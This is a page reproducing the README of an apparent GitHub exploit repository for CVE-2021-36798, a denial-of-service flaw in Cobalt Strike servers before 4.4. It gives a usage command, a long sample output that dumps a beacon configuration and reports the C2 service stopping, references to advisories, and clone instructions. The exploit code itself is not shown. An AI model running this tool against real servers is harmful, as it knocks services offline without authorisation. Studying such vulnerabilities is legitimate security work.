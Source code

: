 # CobaltStrikeDos

CVE-2021-36798: CobaltStrike < 4.4 Dos

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/JamVayne](https://github.com/JamVayne) |
| Url      | [https://github.com/JamVayne/CobaltStrikeDos](https://github.com/JamVayne/CobaltStrikeDos)                                               |
| Stars    | 105                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

A denial of service (DoS) vulnerability (CVE-2021-36798) was found in  Cobalt Strike. The vulnerability was fixed in the scope of the 4.4  release. More information can be found [here](https://blog.cobaltstrike.com/2021/08/04/cobalt-strike-dos-vulnerability-cve-2021-36798/)

## Usage

```
python3 CobaltStrikeDos.py https://1.1.1.1<:443> <stager path>
```

```
$ python3 CobaltStrikeDos.py https://192.168.1.3:4431 jquery-2.1.1.min.js
[+] Try Get beacon configuration
BeaconType                       - HTTPS
Port                             - 4431
SleepTime                        - 60000
MaxGetSize                       - 1048576
Jitter                           - 0
MaxDNS                           - Not Found
PublicKey_MD5                    - 593aaee8f3b92c6c61cd742e71dcb108
C2Server                         - 192.168.1.3,/cx
UserAgent                        - Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; yie9)
HttpPostUri                      - /submit.php
Malleable_C2_Instructions        - Empty
HttpGet_Metadata                 - Metadata
                                        base64
                                        header "Cookie"
HttpPost_Metadata                - ConstHeaders
                                        Content-Type: application/octet-stream
                                   SessionId
                                        parameter "id"
                                   Output
                                        print
PipeName                         - Not Found
DNS_Idle                         - Not Found
DNS_Sleep                        - Not Found
SSH_Host                         - Not Found
SSH_Port                         - Not Found
SSH_Username                     - Not Found
SSH_Password_Plaintext           - Not Found
SSH_Password_Pubkey              - Not Found
SSH_Banner                       - 
HttpGet_Verb                     - GET
HttpPost_Verb                    - POST
HttpPostChunk                    - 0
Spawnto_x86                      - %windir%\syswow64\rundll32.exe
Spawnto_x64                      - %windir%\sysnative\rundll32.exe
CryptoScheme                     - 0
Proxy_Config                     - Not Found
Proxy_User                       - Not Found
Proxy_Password                   - Not Found
Proxy_Behavior                   - Use IE settings
Watermark                        - 426352781
bStageCleanup                    - False
bCFGCaution                      - False
KillDate                         - 0
bProcInject_StartRWX             - True
bProcInject_UseRWX               - True
bProcInject_MinAllocSize         - 0
ProcInject_PrependAppend_x86     - Empty
ProcInject_PrependAppend_x64     - Empty
ProcInject_Execute               - CreateThread
                                   SetThreadContext
                                   CreateRemoteThread
                                   RtlCreateUserThread
ProcInject_AllocationMethod      - VirtualAllocEx
bUsesCookies                     - True
HostHeader                       - 
headersToRemove                  - Not Found
DNS_Beaconing                    - Not Found
DNS_get_TypeA                    - Not Found
DNS_get_TypeAAAA                 - Not Found
DNS_get_TypeTXT                  - Not Found
DNS_put_metadata                 - Not Found
DNS_put_output                   - Not Found
DNS_resolver                     - Not Found
DNS_strategy                     - round-robin
DNS_strategy_rotate_seconds      - -1
DNS_strategy_fail_x              - -1
DNS_strategy_fail_seconds        - -1
BeaconType                       - HTTPS
Port                             - 4431
SleepTime                        - 60000
MaxGetSize                       - 1048576
Jitter                           - 0
MaxDNS                           - Not Found
PublicKey_MD5                    - 593aaee8f3b92c6c61cd742e71dcb108
C2Server                         - 192.168.1.3,/ga.js
UserAgent                        - Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
HttpPostUri                      - /submit.php
Malleable_C2_Instructions        - Empty
HttpGet_Metadata                 - Metadata
                                        base64
                                        header "Cookie"
HttpPost_Metadata                - ConstHeaders
                                        Content-Type: application/octet-stream
                                   SessionId
                                        parameter "id"
                                   Output
                                        print
PipeName                         - Not Found
DNS_Idle                         - Not Found
DNS_Sleep                        - Not Found
SSH_Host                         - Not Found
SSH_Port                         - Not Found
SSH_Username                     - Not Found
SSH_Password_Plaintext           - Not Found
SSH_Password_Pubkey              - Not Found
SSH_Banner                       - 
HttpGet_Verb                     - GET
HttpPost_Verb                    - POST
HttpPostChunk                    - 0
Spawnto_x86                      - %windir%\syswow64\rundll32.exe
Spawnto_x64                      - %windir%\sysnative\rundll32.exe
CryptoScheme                     - 0
Proxy_Config                     - Not Found
Proxy_User                       - Not Found
Proxy_Password                   - Not Found
Proxy_Behavior                   - Use IE settings
Watermark                        - 426352781
bStageCleanup                    - False
bCFGCaution                      - False
KillDate                         - 0
bProcInject_StartRWX             - True
bProcInject_UseRWX               - True
bProcInject_MinAllocSize         - 0
ProcInject_PrependAppend_x86     - Empty
ProcInject_PrependAppend_x64     - Empty
ProcInject_Execute               - CreateThread
                                   SetThreadContext
                                   CreateRemoteThread
                                   RtlCreateUserThread
ProcInject_AllocationMethod      - VirtualAllocEx
bUsesCookies                     - True
HostHeader                       - 
headersToRemove                  - Not Found
DNS_Beaconing                    - Not Found
DNS_get_TypeA                    - Not Found
DNS_get_TypeAAAA                 - Not Found
DNS_get_TypeTXT                  - Not Found
DNS_put_metadata                 - Not Found
DNS_put_output                   - Not Found
DNS_resolver                     - Not Found
DNS_strategy                     - round-robin
DNS_strategy_rotate_seconds      - -1
DNS_strategy_fail_x              - -1
DNS_strategy_fail_seconds        - -1

[+] Send Payload
[+] The C2 Service Has Stopped, Took 5.24 Seconds
```



https://blog.cobaltstrike.com/2021/08/04/cobalt-strike-dos-vulnerability-cve-2021-36798/

https://github.com/Sentinel-One/CobaltStrikeParser

https://www.sentinelone.com/labs/hotcobalt-new-cobalt-strike-dos-vulnerability-that-lets-you-halt-operations/



## Get the content

```
git clone https://github.com/JamVayne/CobaltStrikeDos
cd CobaltStrikeDos
```

{% embed url="https://github.com/JamVayne/CobaltStrikeDos" %}

<figure><img src="https://avatars.githubusercontent.com/u/39869990?v=4" alt=""><figcaption><p>JamVayne</p></figcaption></figure>
